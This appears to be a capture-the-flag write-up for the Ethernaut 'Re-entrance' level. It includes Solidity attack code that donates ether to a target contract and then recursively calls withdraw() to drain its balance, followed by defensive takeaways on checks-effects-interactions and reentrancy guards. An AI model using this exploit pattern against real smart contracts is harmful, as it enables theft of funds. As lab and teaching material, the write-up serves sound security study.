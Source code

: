 # 10 Re-entrance

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

>Untrusted contracts can execute code where you least expect it.
>Fallback methods
>Throw/revert bubbling
>Sometimes the best way to attack a contract is with another contract.
See the Help page above, section "Beyond the console"

---
This level demonstrates how a reentrancy exploit can be used to siphon funds out of a contract. Here's a graphic from quantstamp that outlines a reentrancy.

![](./Reentrance.png)

**Solution:**
First we create an attacking contract that inherits the `Reentrance.sol` contract. We'll create this function: `attack()`

```-
function attack() external payable {
    require(msg.value >= 0.1 ether);

    initDeposit = msg.value;
    target.donate{value: initDeposit}(address(this)); 

    callWithdraw();
}
```
We'll seed it with some ether and then recursively call the `withdraw()` function

```-
function callWithdraw() private {
        //update remaining balance for each withdraw
        uint256 remainingBal = address(target).balance;
        //check if there are more tokens to steal
        bool continueRecursing = remainingBal > 0;

        if(continueRecursing) {
            //we're only allowed to withdraw at most our initial deposit
            uint256 withdrawAmt = 
                initDeposit < remainingBal
                    ? initDeposit
                    : remainingBal;
                target.withdraw(withdrawAmt);
        }   
    }
```
Checks are included to make sure that we don't withdraw more than the target contract contains. If we withdraw too much, our transaction will revert. 

Note: Had to change the format of `.call.value(_amount)("")` to `.call{value: _amount}("")` because the syntax changed from `^0.6.0` to `^0.8.0`

**Takeaways:**
    - Use Check > Effect > Interact pattern. The wrong order will allow for a reentrancy attack. 
    - Optionally, use a mutex (oz reentrancyguard) modifier. 